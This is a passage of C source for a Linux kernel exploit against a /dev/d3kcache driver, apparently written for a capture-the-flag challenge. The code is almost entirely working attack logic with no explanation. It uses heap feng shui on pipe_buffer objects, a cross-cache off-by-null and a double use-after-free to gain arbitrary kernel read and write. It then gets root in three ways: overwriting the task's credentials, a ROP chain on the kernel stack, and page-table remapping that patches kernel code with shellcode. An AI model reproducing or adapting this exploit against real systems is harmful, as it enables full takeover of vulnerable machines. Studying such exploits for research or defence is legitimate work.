int victim_pip_id[2] = {-1, -1};
int evil_pipe_id[3] = {-1, -1, -1};
size_t page_offset_base = 0xffff888000000000;
size_t vmemmap_base = 0xffffea0000000000;
size_t kernel_offset;
size_t current_task;
size_t buf[0x1000];

struct page *direct_map_addr_to_page_addr(size_t direct_map_addr) {
    return (struct page *) (vmemmap_base + ((direct_map_addr & (~0xFFF)) - page_offset_base) / 0x1000 * 0x40);
}

ssize_t arbitrary_read_by_pipe(void *page_to_read, void *dst) {
    evil_pipe_buf[0].offset = 0;
    evil_pipe_buf[0].len = 0x1FF8;
    evil_pipe_buf[0].page = page_to_read;

    write(pipe_fd[evil_pipe_id[1]][1], &evil_pipe_buf[2], sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], &evil_pipe_buf[0], sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], buf, TRD_PIPE_BUF_SZ - sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], &evil_pipe_buf[1], sizeof(info_pipe_buf));
    return read(pipe_fd[evil_pipe_id[0]][0], dst, 0xFFF);
}

ssize_t arbitrary_write_by_pipe(void *page_to_write, void *src, size_t len) {
    evil_pipe_buf[0].offset = 0;
    evil_pipe_buf[0].len = 0;
    evil_pipe_buf[0].page = page_to_write;

    write(pipe_fd[evil_pipe_id[1]][1], &evil_pipe_buf[2], sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], &evil_pipe_buf[0], sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], buf, TRD_PIPE_BUF_SZ - sizeof(info_pipe_buf));
    write(pipe_fd[evil_pipe_id[2]][1], &evil_pipe_buf[1], sizeof(info_pipe_buf));
    return write(pipe_fd[evil_pipe_id[0]][1], src, len);
}


void first_fengshui(){


    puts("[*] spray pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (pipe(pipe_fd[i]) < 0) {
            perror("[-] failed to create pipe.");
            exit(-1);
        }
    }

    puts("[*] exetend pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i % 8 == 0) {
            free_page(pgv_8pages_start_idx++);
        }
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {
            perror("[-] failed to extend pipe.");
            exit(-1);
        }
        if (i == PIPE_SPRAY_NUM / 2) {
            puts("[*] spray vulnerable 2k obj...");
            free_page(pgv_8pages_start_idx++);
            for (int j = 0; j < KCACHE_NUM; j++) {
                kcache_alloc(j, 3, "llk");
            }
            puts("[*] exetend pipe_buffer...");
        }
    }

    puts("[*] allocating pipe pages...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], "llk", 3);
        for (int j = 0; j < 8; j++) {
            write(pipe_fd[i][1], &i, sizeof(int));
        }
    }
}

void first_fengshui_UAF(){


    puts("[*] trigerring cross-cache off-by-null...");
    memset(buf, 0, sizeof(buf)); 
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_write(i, KCACHE_SIZE - 3, buf);
    }

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;
        read(pipe_fd[i][0], buf, 3);
        read(pipe_fd[i][0], &nr, sizeof(int));
        if (!memcmp(buf, "llk", 3) && nr != i) {
            orig_pipe_id[0] = nr, victim_pip_id[0] = i;
            printf("[+] find victim: %d, orig: %d.\n", victim_pip_id[0], orig_pipe_id[0]);
        }
    }

    if (orig_pipe_id[0] == -1) {
        puts("[-] failed to corrupt pipe_buffer.");
        exit(-1);
    }

    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ / sizeof(struct pipe_buffer));
    write(pipe_fd[victim_pip_id[0]][1], buf, SND_PIPE_BUF_SZ * 2 - 3 - 8 * sizeof(int));

    puts("[*] free original pipe...");
    close(pipe_fd[orig_pipe_id[0]][0]);
    close(pipe_fd[orig_pipe_id[0]][1]);

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pipe_id[0] || i == victim_pip_id[0]) {
            continue;
        }
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {
            perror("[-] failed to extend pipe.");
            exit(-1);
        }
    }

    read(pipe_fd[victim_pip_id[0]][0], buf, SND_PIPE_BUF_SZ - 3 - sizeof(int));
    read(pipe_fd[victim_pip_id[0]][0], &info_pipe_buf, sizeof(info_pipe_buf));

    qword_dump("leak pipe_buffer", &info_pipe_buf, sizeof(info_pipe_buf));
    kernel_offset = (size_t) info_pipe_buf.ops - 0xffffffff82451b30;
    printf("[+] kernel offset: %p\n", kernel_offset);
}

void second_fengshui(){

    puts("[*] construct a second-level uaf pipe page...");
    write(pipe_fd[victim_pip_id[0]][1], &info_pipe_buf, sizeof(info_pipe_buf));

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;
        if (i == orig_pipe_id[0] || i == victim_pip_id[0]) {
            continue;
        }
        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr >= 0 && nr < PIPE_SPRAY_NUM && i != nr) {
            orig_pipe_id[1] = nr;
            victim_pip_id[1] = i;
            printf("[+] find second-level victim: %d, orig: %d.\n", victim_pip_id[1], orig_pipe_id[1]);
        }
    }
    if (victim_pip_id[1] == -1) {
        puts("[-] failed to corrupt second-level pipe_buffer.");
        exit(-1);
    }
}

void second_fengshui_UAF(){
    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ / sizeof(struct pipe_buffer));
    write(pipe_fd[victim_pip_id[1]][1], buf, sizeof(info_pipe_buf) - 3 - 8 * sizeof(int));

    puts("[*] free second-level original pipe...");
    close(pipe_fd[orig_pipe_id[1]][0]);
    close(pipe_fd[orig_pipe_id[1]][1]);

    puts("[*] fcntl() to set the pipe_buffer on second-level victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pipe_id[0] || i == orig_pipe_id[1] || i == victim_pip_id[0] || i == victim_pip_id[1]) {
            continue;
        }
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {
            perror("[-] failed to extend pipe.");
            exit(-1);
        }
    }
}

void build_self_write_pipe(){
    for (int i = 0; i < 3; i++) {
        puts("[*] hijacking pipe_buffer on page to itself...");
        memcpy(&evil_pipe_buf[i], &info_pipe_buf, sizeof(info_pipe_buf));
        evil_pipe_buf[i].offset = TRD_PIPE_BUF_SZ;
        evil_pipe_buf[i].len = TRD_PIPE_BUF_SZ;
        write(pipe_fd[victim_pip_id[1]][1], buf, TRD_PIPE_BUF_SZ - sizeof(info_pipe_buf));
        write(pipe_fd[victim_pip_id[1]][1], &evil_pipe_buf[i], sizeof(info_pipe_buf));

        for (int j = 0; j < PIPE_SPRAY_NUM; j++) {
            if (j == orig_pipe_id[0] || j == orig_pipe_id[1] || j == victim_pip_id[0] || j == victim_pip_id[1]) {
                continue;
            }
            bool flag = false;
            for (int k = 0; k < i; k++) {
                if (j == evil_pipe_id[k]) {
                    flag = true;
                    break;
                }
            }
            if (flag) {
                continue;
            }
            struct page *page_ptr;
            read(pipe_fd[j][0], &page_ptr, sizeof(page_ptr));
            if (page_ptr == info_pipe_buf.page) {
                evil_pipe_id[i] = j;
                printf("[+] find self-writing pipe: %d\n", evil_pipe_id[i]);
            }
        }
        if (evil_pipe_id[i] == -1) {
            puts("[-] failed to build self-writing pipe.");
            exit(-1);
        }
    }
}
void leak(){
    evil_pipe_buf[1].offset = TRD_PIPE_BUF_SZ * 3;
    evil_pipe_buf[1].len = 0;
    write(pipe_fd[evil_pipe_id[2]][1], &evil_pipe_buf[1], sizeof(info_pipe_buf));

    evil_pipe_buf[2].offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf[2].len = 0;

    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    while (true) {
        arbitrary_read_by_pipe((void *) vmemmap_base + 0x9d000 / 0x1000 * 0x40, buf);
        if (kernel_offset + 0xFFFFFFFF81000070 == buf[0]) {
            printf("[+] find secondary_startup_64: %p\n", buf[0]);
            break;
        }
        vmemmap_base -= 0x10000000;
    }
    printf("[+] vmemmap_base: %p\n", vmemmap_base);

    puts("[*] seeking task_struct in memory...");
    prctl(PR_SET_NAME, "pwn-llk");
    for (int i = 0;; i++) {
        ssize_t len = arbitrary_read_by_pipe((void *) vmemmap_base + i * 0x40, buf);
        size_t *comm = memmem(buf, len, "pwn-llk", 13);
        if (comm && is_dir_mapping_addr(comm[-2])
            && is_dir_mapping_addr(comm[-57])
            && is_dir_mapping_addr(comm[-56])) {
            current_task = comm[-50] - 2528;
            page_offset_base = (comm[-50] & 0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;
            printf("[+] find currtent task_struct: %p\n", current_task);
            printf("[+] page_offset_base: %p\n", page_offset_base);
            break;
        }
    }
}

void privilege_escalation_by_task_overwrite() {
    /* finding the init_task, the final parent of every task */
    puts("[*] Seeking for init_task...");
    size_t init_cred;
    size_t task = current_task;
    while (true) {
        arbitrary_read_by_pipe(direct_map_addr_to_page_addr(task), buf);
        arbitrary_read_by_pipe((void *) direct_map_addr_to_page_addr(task) + 0x40, &buf[0x1000 / 8]);
        if ((buf[((task & 0xFFF) + 0x998) / 8] & 0xFFFFFFFF) == 0) {
            init_cred = buf[((task & 0xFFF) + 0xB60) / 8];
            printf("[+] find init_cred: %p\n", init_cred);
            break;
        }
        task = buf[((task & 0xFFF) + 0x8D0) / 8] - 0x8D0;
    }

    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(current_task), buf);
    arbitrary_read_by_pipe((void *) direct_map_addr_to_page_addr(current_task) + 0x40, &buf[0x1000 / 8]);
    buf[((current_task & 0xFFF) + 0xB58) / 8] = init_cred;
    buf[((current_task & 0xFFF) + 0xB60) / 8] = init_cred;
    arbitrary_write_by_pipe(direct_map_addr_to_page_addr(current_task), buf, 0xff0);
    arbitrary_write_by_pipe((void *) direct_map_addr_to_page_addr(current_task) + 0x40, &buf[0x1000 / 8], 0xff0);
    system("/bin/sh");
}

size_t stack_addr, pgd_addr;

void pgd_vaddr_init() {
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(current_task), buf);
    arbitrary_read_by_pipe((void *) direct_map_addr_to_page_addr(current_task) + 0x40, &buf[0x1000 / 8]);
    stack_addr = buf[((current_task & 0xFFF) + 0x20) / 8];
    printf("[*] kernel stack addr: %p\n", stack_addr);
    size_t mm_struct_addr = buf[((current_task & 0xFFF) + 0x920) / 8];
    printf("[*] mm_struct addr: %p\n", mm_struct_addr);
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(mm_struct_addr), buf);
    arbitrary_read_by_pipe((void *) direct_map_addr_to_page_addr(mm_struct_addr) + 0x40, &buf[0x1000 / 8]);
    pgd_addr = buf[((mm_struct_addr & 0xFFF) + 0x48) / 8];
    printf("[*] pgd addr: %p\n", pgd_addr);
}

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_RW (1ULL << 1)
#define PAGE_NX (1ULL << 63)

size_t vaddr_to_paddr_for_4_level(size_t vaddr) {
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pgd_addr), buf);
    size_t pud_vaddr = ((buf[PGD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pud_vaddr), buf);
    size_t pmd_vaddr = ((buf[PUD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pmd_vaddr), buf);
    size_t pte_vaddr = ((buf[PMD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pte_vaddr), buf);
    return ((buf[PTE_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) | (vaddr & 0xFFF);
}

size_t vaddr_to_paddr_for_3_level(size_t vaddr) {
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pgd_addr), buf);
    size_t pud_vaddr = ((buf[PGD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pud_vaddr), buf);
    size_t pmd_vaddr = ((buf[PUD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pmd_vaddr), buf);
    return ((buf[PMD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) | (vaddr & 0x1FFFFF);
}

void vaddr_remapping(size_t vaddr, size_t paddr) {
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pgd_addr), buf);
    size_t pud_vaddr = ((buf[PGD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pud_vaddr), buf);
    size_t pmd_vaddr = ((buf[PUD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pmd_vaddr), buf);
    size_t pte_vaddr = ((buf[PMD_ENTRY(vaddr)] & (~0xFFF)) & (~PAGE_NX)) + page_offset_base;
    arbitrary_read_by_pipe(direct_map_addr_to_page_addr(pte_vaddr), buf);
    buf[PTE_ENTRY(vaddr)] = (paddr & (~0xFFF)) | 0x8000000000000867;/* mark it writable */
    arbitrary_write_by_pipe(direct_map_addr_to_page_addr(pte_vaddr), buf, 0xff0);
}

void get_shell(void) {
    char *args[] = {"/bin/sh", "-i", NULL};
    execve(args[0], args, NULL);
}

void privilege_escalation_by_rop() {
    pgd_vaddr_init();
    stack_addr = vaddr_to_paddr_for_4_level(stack_addr) + page_offset_base;
    printf("[*] stack addr on direct mapping space: %p\n", stack_addr);
    save_status();
    size_t ret = 0xffffffff8107af08 + kernel_offset;
    size_t pop_rdi_ret = 0xffffffff818710dd + kernel_offset;
    size_t init_cred = 0xFFFFFFFF83079EE8 + kernel_offset;
    size_t commit_creds = 0xFFFFFFFF811284E0 + kernel_offset;
    size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF82201A90 + kernel_offset;
    size_t *rop = buf;
    for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) { *rop++ = ret; }
    *rop++ = pop_rdi_ret;
    *rop++ = init_cred;
    *rop++ = commit_creds;
    *rop++ = swapgs_restore_regs_and_return_to_usermode + 0x36;
    rop++;
    rop++;
    *rop++ = (size_t) get_shell;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_sp;
    *rop++ = user_ss;
    puts("[*] hijacking current task's stack...");
    arbitrary_write_by_pipe(direct_map_addr_to_page_addr(stack_addr + 0x1000 * 3), buf, 0xff0);
}

void privilege_escalation_by_usma() {
    pgd_vaddr_init();
    size_t ns_capable_setid_vaddr = 0xFFFFFFFF810FD2A0 + kernel_offset;
    printf("[*] ns_capable_setid vaddr: %p\n", ns_capable_setid_vaddr);
    size_t ns_capable_setid_paddr = vaddr_to_paddr_for_3_level(ns_capable_setid_vaddr);
    printf("[*] ns_capable_setid vaddr in dir map: %p\n", ns_capable_setid_paddr + page_offset_base);
    size_t ns_capable_setid_page_paddr = ns_capable_setid_paddr & ~0xFFF;
    char *code_mmap = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memset(code_mmap, 0, 0x2000);
    vaddr_remapping((size_t) code_mmap, ns_capable_setid_page_paddr);
    vaddr_remapping((size_t) code_mmap + 0x1000, ns_capable_setid_page_paddr + 0x1000);
    sleep(1);
    byte_dump("code_mmap", code_mmap + (ns_capable_setid_paddr & 0xFFF), 0x100);
    uint8_t shellcode[] = {0x48, 0xc7, 0xc0, 0x1, 0x0, 0x0, 0x0, 0xc3};
    memcpy(code_mmap + (ns_capable_setid_paddr & 0xFFF), shellcode, sizeof(shellcode));
    setresuid(0, 0, 0);
    system("/bin/sh");
}

int main(int argc, char **argv, char **envp)
{
    bind_core(true,false);
    puts("step 1: open /dev/d3kcache ");
    int kcache_fd = open("/dev/d3kcache", O_RDWR);
    puts("step 2: prepare for namespace process and pipe for alloc order page ");
    prepare_pgv_system();
    puts("step 3: setsocket heap spray for contiguous order 3 page   ");
    prepare_pgv_pages();
    puts("step 4: build first page fengshui  ");
    first_fengshui();
    puts("step 5: build pipbuffer page UAF  ");
    first_fengshui_UAF();
    puts("step 6: build second page fengshui ");
    second_fengshui();
    puts("step 7: fill UAF page by pipebuffer and build pipebuffer page UAF  ");
    second_fengshui_UAF();
    puts("step 8: fill UAF page by pipebuffer and build three pipe which their page point to the page they are in");
    build_self_write_pipe();
    puts("step 8: build arbitary read write and leak  page_offset_base and vmemmap_base and  Kernel offset ");
    leak();

    if (argv[1] && !strcmp(argv[1], "rop")) {
        privilege_escalation_by_rop();
    } else if (argv[1] && !strcmp(argv[1], "usma")) {
        privilege_escalation_by_usma();
    } else {
        privilege_escalation_by_task_overwrite();
    }

}
```

